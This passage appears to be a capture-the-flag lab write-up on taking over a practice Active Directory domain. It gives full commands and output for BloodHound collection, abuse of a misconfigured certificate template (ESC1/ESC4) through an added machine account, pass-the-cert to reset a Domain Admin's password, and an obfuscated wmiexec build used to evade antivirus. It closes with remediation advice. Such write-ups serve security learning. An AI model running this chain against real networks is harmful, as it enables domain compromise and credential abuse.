## BloodHound Enumeration

With a password in hand, the collector runs.

```
nxc ldap anomaly.hsm -u 'brandon_boyd' -p '3edc4rfv#EDC$RFV' --bloodhound --collection All --dns-server 10.0.27.56
```

```
LDAP        10.0.27.56      389    ANOMALY-DC       [*] Windows 11 / Server 2025 Build 26100 (name:ANOMALY-DC) (domain:anomaly.hsm) (signing:Enforced) (channel binding:When Supported) 
LDAP        10.0.27.56      389    ANOMALY-DC       [+] anomaly.hsm\brandon_boyd:3edc4rfv#EDC$RFV 
LDAP        10.0.27.56      389    ANOMALY-DC       Resolved collection methods: acl, dcom, localadmin, container, psremote, objectprops, trusts, session, group, rdp
LDAP        10.0.27.56      389    ANOMALY-DC       Done in 0M 21S
LDAP        10.0.27.56      389    ANOMALY-DC       Compressing output into /home/kali/.nxc/logs/ANOMALY-DC_10.0.27.56_2026-09-24_174222_bloodhound.zip
```

The password checks out and the collection completes. `Brandon_Boyd` holds no outbound object control worth chasing. Two accounts sit in Domain Admins, `anna_molly` and `Administrator`, and the built-in `Administrator` is disabled, which makes `anna_molly` the target.



*BloodHound showing anna_molly and a disabled Administrator in Domain Admins*

## Certipy Enumeration

Any authenticated account can run certipy find, so we enumerate templates as `Brandon_Boyd`.

```
certipy-ad find -u 'brandon_boyd@anomaly.hsm' -p '3edc4rfv#EDC$RFV' -dc-ip 10.0.27.56 -vulnerable -stdout
```

```
Certificate Authorities
  0
    CA Name                             : anomaly-ANOMALY-DC-CA-2
    DNS Name                            : Anomaly-DC.anomaly.hsm
    Certificate Subject                 : CN=anomaly-ANOMALY-DC-CA-2, DC=anomaly, DC=hsm
    Certificate Serial Number           : 3F1A258E7CADC7AE4C54650883521D22
    Certificate Validity Start          : 2025-09-21 21:25:39+00:00
    Certificate Validity End            : 2124-09-21 21:35:38+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : ANOMALY.HSM\Administrators
      Access Rights
        ManageCa                        : ANOMALY.HSM\Administrators
                                          ANOMALY.HSM\Domain Admins
                                          ANOMALY.HSM\Enterprise Admins
        ManageCertificates              : ANOMALY.HSM\Administrators
                                          ANOMALY.HSM\Domain Admins
                                          ANOMALY.HSM\Enterprise Admins
        Enroll                          : ANOMALY.HSM\Authenticated Users
Certificate Templates
  0
    Template Name                       : CertAdmin
    Display Name                        : CertAdmin
    Certificate Authorities             : anomaly-ANOMALY-DC-CA-2
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : IncludeSymmetricAlgorithms
                                          PublishToDs
    Private Key Flag                    : ExportableKey
    Extended Key Usage                  : Client Authentication
                                          Secure Email
                                          Encrypting File System
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 2
    Validity Period                     : 99 years
    Renewal Period                      : 650430 hours
    Minimum RSA Key Length              : 2048
    Template Created                    : 2025-09-21T17:57:59+00:00
    Template Last Modified              : 2025-09-21T17:58:00+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : ANOMALY.HSM\Domain Admins
                                          ANOMALY.HSM\Enterprise Admins
      Object Control Permissions
        Owner                           : ANOMALY.HSM\Administrator
        Full Control Principals         : ANOMALY.HSM\Domain Admins
                                          ANOMALY.HSM\Enterprise Admins
                                          ANOMALY.HSM\Domain Computers
        Write Owner Principals          : ANOMALY.HSM\Domain Admins
                                          ANOMALY.HSM\Enterprise Admins
                                          ANOMALY.HSM\Domain Computers
        Write Dacl Principals           : ANOMALY.HSM\Domain Admins
                                          ANOMALY.HSM\Enterprise Admins
                                          ANOMALY.HSM\Domain Computers
        Write Property Enroll           : ANOMALY.HSM\Domain Admins
                                          ANOMALY.HSM\Enterprise Admins
    [+] User Enrollable Principals      : ANOMALY.HSM\Domain Computers
    [+] User ACL Principals             : ANOMALY.HSM\Domain Computers
    [!] Vulnerabilities
      ESC1                              : Enrollee supplies subject and template allows client authentication.
      ESC4                              : User has dangerous permissions.
```



*Certipy flagging ESC1 and ESC4 on the CertAdmin template, enrollable by Domain Computers*

Certipy flags ESC1 and ESC4 on the `CertAdmin` template. ESC1 is a template misconfiguration where the requester can specify an arbitrary identity in the Subject Alternative Name and the template includes a client authentication EKU. A user with enrollment rights can request a certificate naming any UPN, including a domain admin, and the CA issues it without manager approval. The template restricts enrollment to Domain Admins and Enterprise Admins, so `Brandon_Boyd` cannot request from it directly. Domain Computers holds full control over the template object, the dangerous permission ESC4 flags, and Certipy lists the group as an enrollable principal.

## Access as anna_molly

Any authenticated user can create a machine account under the default machine account quota of ten, and a machine account is a member of Domain Computers, so it can enroll in the template. We create one with impacket-addcomputer.

```
impacket-addcomputer anomaly.hsm/brandon_boyd:'3edc4rfv#EDC$RFV' -computer-name 'BIRD$' -computer-pass 'BirdWasHere1337!' -dc-ip 10.0.27.56
```

```
[*] Successfully added machine account BIRD$ with password BirdWasHere1337!.
```



*impacket-addcomputer creating the BIRD$ machine account under the default quota*

Now we request a certificate as that machine account, naming `anna_molly` as the identity. We read her SID (security identifier) from the Object ID on her BloodHound node. `-sid` puts the target SID in the Subject Alternative Name so a current DC maps the certificate to the right account.

```
certipy-ad req -u 'BIRD$@anomaly.hsm' -p 'BirdWasHere1337!' -dc-ip 10.0.27.56 -target 'anomaly.hsm' -ca 'anomaly-ANOMALY-DC-CA-2' -template 'CertAdmin' -upn 'anna_molly@anomaly.hsm' -sid 'S-1-5-21-1496966362-3320961333-4044918980-1105'
```

The RPC request is intermittent and can take a few tries. It errors the first time here and goes through on the rerun.

```
[*] Requesting certificate via RPC
[*] Request ID is 16
[*] Successfully requested certificate
[*] Got certificate with UPN 'anna_molly@anomaly.hsm'
[*] Certificate object SID is 'S-1-5-21-1496966362-3320961333-4044918980-1105'
[*] Saving certificate and private key to 'anna_molly.pfx'
[*] Wrote certificate and private key to 'anna_molly.pfx'
```



*Certipy requesting a certificate for anna_molly through the CertAdmin template*

We try to authenticate with the certificate via PKINIT, the Kerberos extension that lets a certificate stand in for a password.

```
certipy-ad auth -pfx 'anna_molly.pfx' -dc-ip '10.0.27.56'
```

```
[*] Certificate identities:
[*]     SAN UPN: 'anna_molly@anomaly.hsm'
[*]     SAN URL SID: 'S-1-5-21-1496966362-3320961333-4044918980-1105'
[*]     Security Extension SID: 'S-1-5-21-1496966362-3320961333-4044918980-1105'
[*] Using principal: 'anna_molly@anomaly.hsm'
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type)
[-] Use -debug to print a stacktrace
[-] See the wiki for more information
```



*Certipy's PKINIT request rejected by the KDC with KDC_ERR_PADATA_TYPE_NOSUPP*

`KDC_ERR_PADATA_TYPE_NOSUPP` means the DC is not serving PKINIT, so the Kerberos path to a ticket is closed. The certificate is still valid, so we present it over Schannel instead, the TLS channel LDAP exposes, which never touches the KDC. `-ldap-shell` authenticates the certificate to LDAP and drops us into a shell as `anna_molly`, where we reset her password to one we know.

```
certipy-ad auth -pfx 'anna_molly.pfx' -dc-ip '10.0.27.56' -ldap-shell
```

```
[*] Certificate identities:
[*]     SAN UPN: 'anna_molly@anomaly.hsm'
[*]     SAN URL SID: 'S-1-5-21-1496966362-3320961333-4044918980-1105'
[*]     Security Extension SID: 'S-1-5-21-1496966362-3320961333-4044918980-1105'
[*] Connecting to 'ldaps://10.0.27.56:636'
[*] Authenticated to '10.0.27.56' as: 'u:ANOMALY\anna_molly'
Type help for list of commands

# change_password anna_molly 0xB1rdWasHere1337!
Got User DN: CN=anna_molly,CN=Users,DC=anomaly,DC=hsm
Attempting to set new password of: 0xB1rdWasHere1337!
Password changed successfully!
```



*Pass-the-cert over Schannel: resetting anna_molly's password from the Certipy LDAP shell*

## Shell as anna_molly (root.txt)

With a password we set for `anna_molly`, we log in directly. WinRM is not open on the domain controller, so evil-winrm is out. AV is on the box, and the standard smbexec, psexec, and wmiexec all fail against it. [wmiexec2](https://github.com/ice-wzl/wmiexec2) is an obfuscated build of wmiexec made to slip past signature-based detection.

```
python3 wmiexec2.py anomaly.hsm/anna_molly:'0xB1rdWasHere1337!'@Anomaly-DC.anomaly.hsm
```

wmiexec2 can take a few runs to land, and the `C:\>` prompt is the sign it worked.

```
[*] SMBv3.0 dialect used
[*] Output Filename: \temP\P7M-F4C5-X6YJ-3YOV-JP1W-DVD0-
[*] **Launching wmiexec2**
[*] Press help for extra shell commands
C:\> whoami
anomaly\anna_molly
```



*wmiexec2 landing a shell on the domain controller as anna_molly*

`anna_molly` is a Domain Admin, so we now control the domain. `root.txt` is on the `Administrator`'s desktop.



*The wmiexec2 shell with root.txt listed on the Administrator's desktop*

## Final Thoughts

I tried to get an NT hash out of the keytab and came up empty, so I used it with `kinit` to request a ticket instead, no password needed. On the AD CS side, PKINIT wasn't available on the domain controller, so I used the certificate over Schannel and reset `anna_molly`'s password.

Jenkins shipped with `admin:admin`, and its script console is code execution for anyone who logs in, so the default login should have been changed at setup. A program you can run through sudo should never drop user input straight into a shell command; build the command without a shell, or escape the argument first. A keytab is a credential file and does not belong world-readable on a domain-joined host. A template with Enrollee Supplies Subject enabled turns one account's enrollment rights into a certificate for any account in the domain.

— 0xB1rd
